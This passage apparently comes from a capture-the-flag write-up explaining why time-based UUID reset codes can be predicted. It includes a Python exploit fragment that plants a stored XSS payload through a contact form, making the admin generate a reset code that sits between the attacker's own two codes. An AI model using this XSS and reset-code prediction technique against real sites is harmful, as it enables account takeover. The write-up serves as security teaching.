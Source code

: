 When you run this program, you will notice that the possible number of UUIDs between `a` and `b` is LESS than the possible number of UUIDs between `b` and `c`. Why? Because there is less time duration between `a` and `b`(0.1 sec) than in `b` and `c`(1 sec). **Note: You can confirm the number of UUIDS between them by using the ruby script mentioned earlier.**

This means, the longer server takes during each of the 3 requests we send in our exploit, the greater the number of possible UUIDs.

Now, coming to the main question. Why is admin's UUID closer to second UUID of our user than the first UUID of our user? Let's look at our exploit code.

```python
...
session.get('http://'+IP+':'+PORT+'/resetcode')
cookie = session.cookies.get('session')
rc1 = json.loads(base64.b64decode(cookie[0:cookie.index('.')]+'==').decode('utf-8'))['reset_code']

# Now sending our XSS payload to trigger reset code for admin user 
requests.post('http://'+IP+':'+PORT+'/contact', data='name=123&email=a@a.com&msg=<script>fetch(\'http://127.0.0.1:1337/resetcode\')</script>', headers={'Content-type':'application/x-www-form-urlencoded'})

# Again fetching new reset code for our user
session.get('http://'+IP+':'+PORT+'/resetcode')
...
```

These 3 requests are the backbone of our exploit, first request to get 1st reset code for our user, second POST request to trigger reset code for admin user and the last request is to get 2nd reset code for our user.

Let's see the number of statements server execute during receiving these 3 requests.
